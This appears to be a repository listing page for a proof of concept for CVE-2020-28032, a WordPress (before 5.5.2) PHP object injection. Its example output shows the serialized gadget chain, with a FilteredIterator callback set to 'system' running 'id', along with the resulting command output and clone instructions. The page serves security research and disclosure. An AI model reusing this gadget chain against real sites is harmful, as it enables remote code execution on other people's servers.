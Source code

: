 # CVE-2020-28032_PoC

PoC for CVE-2020-28032 (It's just a POP chain in WordPress < 5.5.2 for exploiting PHP Object Injection)

| Infos    | Value                                                              |
| -------- | -------------------------------------------------------------------|
| Username | [https://github.com/nth347](https://github.com/nth347) |
| Url      | [https://github.com/nth347/CVE-2020-28032_PoC](https://github.com/nth347/CVE-2020-28032_PoC)                                               |
| Stars    | 2                                                          |
| License  | No License                                                        |

<details>

<summary>Topic / Tags</summary>

* deserialization-vulnerability* security-vulnerability* wordpress

</details>

## Readme

# CVE-2020-28032_PoC
PoC for CVE-2020-28032 (It's just a POP chain in WordPress &lt; 5.5.2 for exploiting PHP Object Injection)
## Example output
```
nth347@ubuntu:~$ php CVE-2020-28032_PoC.php 
WC_Log_Handler_File Object
(
    [handles:protected] => Requests_Utility_FilteredIterator Object
        (
            [callback:protected] => system
            [storage:ArrayIterator:private] => Array
                (
                    [0] => id
                )

        )

)
uid=1000(nth347) gid=1000(nth347) groups=1000(nth347),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),120(lpadmin),132(lxd),133(sambashare)
```



## Get the content

```
git clone https://github.com/nth347/CVE-2020-28032_PoC
cd CVE-2020-28032_PoC
```

{% embed url="https://github.com/nth347/CVE-2020-28032_PoC" %}

<figure><img src="https://avatars.githubusercontent.com/u/20441996?v=4" alt=""><figcaption><p>nth347</p></figcaption></figure>
